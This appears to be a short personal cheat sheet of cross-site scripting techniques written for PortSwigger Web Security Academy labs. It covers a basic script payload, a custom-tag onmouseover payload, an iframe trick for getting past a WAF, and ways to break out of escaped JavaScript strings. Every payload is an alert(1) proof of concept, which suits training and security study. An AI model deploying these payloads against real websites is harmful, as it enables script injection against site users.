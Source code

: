 ### Things to Try
Standard Attack for any site
<script>alert(1)</script>

When all tags blocked except custom ones (into HTML context)
* On Portswigger, they call this the “exploit server”
* Create a page that redirects to the original site
   	* <script>location = “https://www.google.com”</script> will redirect you to the google webpage.
* SAMPLE:
   	* %3Cpotato+id%3DvErYcOoL+onmouseover%3Dalert%281%29%3E#vErYcOoL'
      		* potato = custom tag name
      		* vErYcOoL = the id of the tag
      		* #vErYcOoL = will focus on this element with the given id.
* Maybe you want to try closing the previous task by putting a "> out the front before adding another tag.

When there is a WAF & some tags blocked (into HTML context)
* Test some payloads to see which tags or attributes aren't blocked
* iframe can be used to trigger an unblocked event attribute, because the triggering attribute can belong to the iframe
* SAMPLE:
   	* <iframe src= "https://acc11fcd1ea609f0806e6a8f000600e8.web-security-academy.net/?search=<body onresize=alert(1)>" onload=this.style.width='1000px'>
   	* Send the link to a page with this script in it and it will trigger the resize function. 

When entering a javascript string with single quote/backslash escaped
* We can't add tags by closing the quote and all that jazz
* could try closing the script, opening a new one and putting your malicious code in there.

